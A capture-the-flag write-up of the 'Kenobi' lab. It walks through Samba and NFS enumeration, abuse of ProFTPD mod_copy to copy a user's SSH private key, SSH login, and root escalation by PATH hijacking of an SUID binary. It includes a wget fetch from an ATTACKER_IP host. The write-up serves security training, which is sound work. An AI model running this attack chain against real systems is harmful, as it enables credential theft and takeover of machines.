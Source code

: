 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Easy     |  | 10.10.243.180 |  |

---

We start things off with a basic `nmap` scan on the server. We can run 2 scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that 7 ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 & 445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba (SMB) shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, 3 shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`:

```
smbclient //10.10.243.180/SHARE_NAME
```

I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to supply a password.

Once in, we can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a single text file: **log.txt**

**log.txt** was a ProFTPD configuration file which gave us a lot of interesting and potentially useful information about the server. I took note of the file and moved on first.

Next, let's tackle port **111**, which hosts **RPC**. 

---

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

---

In our case, port 111 gives us access to the **Network File System (NFS)** protocol, which runs using RPC. We can use `nmap` to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's move on to the **FTP** server.

The first thing we should do is to enumerate the version of ProFTPD running. To do so, we can use `nc` to connect to the FTP server and find out the version from the response banner:

```
nc 10.10.243.180 21
```

The response tells us that the ProFTPD version is **1.3.5**

Now that we know the version of ProFTPD running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit ProFTPD 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFTPD. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

Remember the **log.txt** file from earlier? It actually reveals that the **private SSH key** of the user, **kenobi**, can be found in **/home/kenobi/.ssh/id_rsa**. Since we know that we can mount onto and access /var on the target machine, we can copy kenobi's private key over to /var and obtain it there.

With the private key, we'll be able to access the machine via SSH as the user kenobi!

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home folder to the **/var/tmp** folder on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the **/var/tmp** directory on the target machine by visting **/mnt/kenobiNFS/** on our local machine. We can then obtain the private key file:

![screenshot7](../assets/images/kenobi/screenshot7.png)

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions are set to be **read and write by owner only**. We can do this with `chmod`:

```
chmod 600 id_rsa  // 400 works too
```

With the permissions set, let's now ssh into the machine as kenobi:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's **home** directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. 

To find these SUID-bit set binaries, the room taught me to use the `find` command:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) instead.

To transfer LinPEAS over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the linpeas.sh script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port 8000. 

Next, I used `wget` on the target machine to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting binary that had its SUID-bit set: **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running this binary, we are presented with some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID-bit being set).

Using the `strings` command, we can look for human-readable strings within the menu binary:

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. using `curl` instead of `/usr/bin/curl`).

Hence, we can manipulate our **PATH** to exploit this and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is fully accessible by setting its permissions to be read-write-executable by all users:

```
chmod 777 curl
```

Next, we put its file location into our **PATH**. In my case, since I created the `curl` file in /tmp, I'll add that directory into my PATH:

```
export PATH=/tmp:$PATH
```

Now, when /usr/bin/menu is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in /tmp first and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from **/root**.





